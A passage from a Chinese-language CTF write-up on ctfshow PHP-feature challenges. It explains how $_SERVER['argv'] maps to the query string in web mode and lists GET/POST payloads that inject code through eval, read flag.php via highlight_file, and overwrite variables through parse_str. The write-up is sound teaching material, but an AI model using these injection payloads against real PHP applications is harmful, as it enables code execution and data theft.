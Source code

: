 然后本地测试，又好像因为规则问题,导致.可以转化出来

![image-20210206112256539](ctfshow-php特性/image-20210206112256539.png)

 另外一个知识点

```
1、cli模式（命令行）下

	第一个参数$_SERVER['argv'][0]是脚本名，其余的是传递给脚本的参数

2、web网页模式下

	在web页模式下必须在php.ini开启register_argc_argv配置项
	
    设置register_argc_argv = On(默认是Off)，重启服务，$_SERVER[‘argv’]才会有效果

    这时候的$_SERVER[‘argv’][0] = $_SERVER[‘QUERY_STRING’]

    $argv,$argc在web模式下不适用
```

因为我们是在网页模式下运行的，所以`$_SERVER['argv'][0] = $_SERVER['QUERY_STRING']`也就是`$a[0]= $_SERVER['QUERY_STRING']`
 这时候我们只要通过 `eval("$c".";");`将$flag赋值flag_give_me就可以了。

```php
get:  $fl0g=flag_give_me;
post:  CTF_SHOW=1&CTF%5bSHOW.COM=1&fun=eval($a[0])

POST: 

CTF_SHOW=&CTF[SHOW.COM=&fun=echo $flag 

#125 

GET:?1=flag.php 

POST:CTF_SHOW=&CTF[SHOW.COM=&fun=highlight_file($_GET[1]) 

#126 

GET:?a=1+fl0g=flag_give_me 

POST:CTF_SHOW=&CTF[SHOW.COM=&fun=parse_str($a[1]) 
```